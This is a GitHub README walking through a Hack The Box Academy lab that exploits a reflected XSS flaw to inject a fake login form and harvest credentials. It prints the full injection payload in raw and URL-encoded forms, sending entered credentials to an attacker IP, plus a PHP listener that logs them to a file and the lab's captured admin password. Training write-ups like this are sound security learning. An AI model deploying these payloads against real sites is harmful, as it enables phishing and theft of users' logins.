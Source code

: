 # HTB Academy XSS Phishing Task Solution

This repository documents my complete solution to the Hack The Box (HTB) Academy Cross-Site Scripting (XSS) phishing task. The goal was to exploit an XSS vulnerability in an "Image URL" input field, inject a fake login form, capture victim credentials, and use them to retrieve a flag.

- **Attacker IP (My Machine):** `10.10.14.179` (where credentials are sent)
- **Target IP (HTB Server):** `10.129.9.211` (hosts the vulnerable app)
- **Date Solved:** April 10, 2025
- **Author:** Manoj (with assistance from Grok by xAI)

---

## Objective
Exploit the XSS vulnerability at `http://10.129.9.211/phishing/index.php?url=` to:
1. Inject a malicious login form that submits credentials to `10.10.14.179`.
2. Capture the victim's credentials using a PHP listener.
3. Log in at `http://10.129.9.211/phishing/login.php` with the captured credentials to get the flag.

---

## Step-by-Step Solution

### Step 1: Confirm XSS Vulnerability
1. **Access the Target Page:**
   - Navigate to: `http://10.129.9.211/phishing/index.php`
   - Identify the "Image URL" input field and submit button.

2. **Test Input Reflection:**
   - Enter: `test`, inspect the page source.
   - Expected: `<img src='test'>` → potential XSS.

3. **Test XSS Exploit:**
   - Input: `'><script>alert(1);</script>`
   - URL: `http://10.129.9.211/phishing/index.php?url='><script>alert(1);</script>`
   - Outcome: Alert pops up → XSS confirmed.

---

### Step 2: Craft the Malicious Payload

#### HTML:
```html
<h3>Please login to continue</h3>
<form action=http://10.10.14.179>
  <input type="username" name="username" placeholder="Username">
  <input type="password" name="password" placeholder="Password">
  <input type="submit" name="submit" value="Login">
</form>
```

#### Raw Payload:
```javascript
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.179><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

#### URL Encoded Payload:
```
%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease%20login%20to%20continue%3C%2Fh3%3E%3Cform%20action%3Dhttp%3A%2F%2F10.10.14.179%3E%3Cinput%20type%3D%22username%22%20name%3D%22username%22%20placeholder%3D%22Username%22%3E%3Cinput%20type%3D%22password%22%20name%3D%22password%22%20placeholder%3D%22Password%22%3E%3Cinput%20type%3D%22submit%22%20name%3D%22submit%22%20value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E
```

#### Malicious URL:
```
http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...%3C%2Fscript%3E
```

---

### Step 3: Set Up the Listener

#### PHP Listener (index.php):
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.9.211/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

#### Command:
```bash
cd /tmp
nano index.php
sudo php -S 0.0.0.0:80 -t /tmp
```

Test with dummy credentials, check `/tmp/creds.txt`.

---

### Step 4: Send the Malicious URL

```
http://10.129.9.211/phishing/send.php?url=http://10.129.9.211/phishing/index.php?url=%27%3E%3Cscript%3Edocument.write%28%27...
```

HTB bot visits, submits credentials, and they're logged.

---

### Step 5: Login and Get the Flag
- URL: `http://10.129.9.211/phishing/login.php`
- Username: `admin`
- Password: `happyhacking`
- Result: HTB{...}

---
![image](https://github.com/user-attachments/assets/7d57a764-b45f-47f4-9fdd-442bce8a53c1)

---
### Step 6: Cleanup
```bash
Ctrl+C
rm /tmp/index.php /tmp/creds.txt
```

---

### Troubleshooting

- **No XSS?** Try `<img src=x onerror=alert(1)>`
- **No creds?** Check if server is listening and VPN is up.
- **Login fails?** Verify credentials captured properly.

---

### Tools Used

- Browser: Firefox
- Terminal: PHP Server
- OS: Kali Linux
- Editor: Nano

---

### Outcome

- Captured: `admin / (not giving because of HTB policy)`
- Flag: Successfully retrieved.

Happy hacking!
